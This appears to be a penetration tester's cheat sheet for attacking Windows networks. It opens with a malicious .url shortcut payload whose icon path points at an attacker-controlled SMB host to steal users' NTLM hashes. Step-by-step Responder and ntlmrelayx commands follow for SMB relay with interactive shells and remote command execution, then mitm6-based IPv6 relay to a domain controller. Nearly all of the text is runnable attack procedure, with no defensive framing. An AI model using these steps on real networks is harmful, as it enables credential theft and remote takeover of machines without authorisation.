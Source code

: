 ## FILE ATTACK:  
1) Payload file:  
[InternetShortcut]  
URL=blah  
WorkingDirectory=blah  
IconFile=\\x.x.x.x\%USERNAME%.icon  
IconIndex=1  

2) Rename file: @payload  

**Additional resources and techniques**: https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds#desktop.ini  

## SMB Relay:  
1) Update responder config: nano -w /etc/responder/Responder.conf, turn off SMB and HTTP.  
2) Run responder: responder -I eth0 -rdwv  
3) Opennew tab and run ntlmrelayx.py -tf [file with IP] -smb2support  
4) Interactive shell: ntlmrelayx.py -tf [file with IP] -smb2support -i Clarify: list shares and use $[share name]  
5) Execute file: ntlmrelayx.py -tf [file with IP] -smb2support -e [filename]  
6) Execute command: ntlmrelayx.py -tf [file with IP] -smb2support -c "whoami"  

## IPv6 Attacks:  
1) Install https://github.com/dirkjanm/mitm6.git  
2) Run mitm6 -d [domain name]  
3) Open new tab and run: ntlmrelayx.py -6 -t ldaps://[DC ip] -wh fakewpad.domain_name.local -l loot  
Resource for read: https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/  

## PASSBACK ATTACK (Printers and IoT):  
https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack  

